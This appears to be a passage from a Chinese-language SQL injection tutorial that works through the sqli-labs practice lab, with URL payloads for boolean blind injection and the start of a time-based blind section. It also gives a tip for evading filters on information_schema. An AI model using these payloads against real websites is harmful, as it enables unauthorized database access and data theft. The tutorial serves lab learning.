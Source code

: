 ### 9.2 爆表

判断数据表的个数

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

> 数据表为 4 个

当 `information_schema` 被过滤时使用 `sys.schema`

> 在 `mysql 5.7` 中新增了 `sys.schema` 基础数据来自于 `performance_chema` 和 `information_schema` 两个库，本身数据库不存储数据

判断第一个数据表的长度

```
?id=1' and （select length(table_name）from information_schema.tables where table_schema=database() limit 0,1)=1 --+
```



### 9.3 爆字段

判断字段的个数

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users')=3 --+
```

> 字段为 3 个

当 `information_schema` 被过滤时使用 `sys.schema`

> 在 `mysql 5.7` 中新增了 `sys.schema` 基础数据来自于 `performance_chema` 和 `information_schema` 两个库，本身数据库不存储数据

### 9.4 拖库

## 10 时间盲注

当反馈信息没有区别时，可以根据响应时间进行注入

> http://192.168.1.76/sqli-labs/Less-8/

### 10.1 判断是否存在 SQL 注入

尝试传递特殊字符 `` `

```
http://192.168.1.76/sqli-labs/Less-8/?id=1'
```

> 当传递 `'` 时报错，说明符号被注入，存在 SQL 注入
>
> 但是没有回显

添加注释使之正常访问
